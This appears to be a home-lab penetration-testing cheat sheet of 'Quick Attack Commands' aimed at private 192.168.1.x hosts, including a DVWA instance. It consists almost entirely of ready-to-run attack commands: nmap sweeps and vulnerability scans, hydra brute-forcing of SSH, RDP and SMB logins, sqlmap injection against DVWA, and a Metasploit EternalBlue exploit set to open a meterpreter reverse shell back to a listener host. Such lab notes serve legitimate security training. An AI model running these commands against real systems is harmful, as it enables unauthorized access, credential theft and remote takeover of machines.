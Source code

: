 ## Quick Attack Commands

### Network Scanning
```bash
# Ping sweep
nmap -sn 192.168.1.0/24

# Full port scan
nmap -p- -T4 192.168.1.30

# Service version detection
nmap -sV 192.168.1.40

# Vulnerability scanning
nmap --script vuln 192.168.1.30
```

### Password Attacks
```bash
# SSH brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.40

# RDP brute force
hydra -l Administrator -P passwords.txt rdp://192.168.1.30

# SMB brute force
hydra -l admin -P passwords.txt smb://192.168.1.30
```

### Web Application Testing
```bash
# Directory enumeration
gobuster dir -u http://192.168.1.40 -w /usr/share/wordlists/dirb/common.txt

# SQL injection
sqlmap -u "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1" --dbs

# Nikto scan
nikto -h http://192.168.1.40
```

### Exploitation
```bash
# Metasploit console
msfconsole

# Search for exploits
msf6 > search eternalblue

# Use exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.168.1.30
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.1.50
msf6 > exploit
```
